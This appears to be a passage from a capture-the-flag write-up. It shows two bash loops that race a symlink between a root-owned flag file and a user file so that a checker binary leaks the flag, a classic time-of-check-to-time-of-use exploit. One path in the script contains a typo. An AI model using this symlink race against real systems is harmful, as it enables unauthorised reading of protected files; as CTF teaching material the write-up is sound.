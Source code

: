 We wrote two bash scripts, which we put in the home directory after sshing in. 
`redirect.sh` symlinks repeatedly between the flag at `/root/flag.txt` and a file we have permissions to (which we create in the local directory) called `dummy.txt`. 
```
while true; do
	rm link
	ln -s /root/flag/txt link
	rm link
	ln -s dummy.txt link
done
```
`runfile.sh` runs `FileChecker` repeatedly on our symlink (only printing to console when we have a flag): 
```
while true; do
	./FileChecker link | grep MCA
done
```
Now you want both of these in your same ssh session; just set `redirect.sh` to run in the background so that you can run `runfile.sh` at the same time:
```
./redirect.sh &
./runfile.sh
```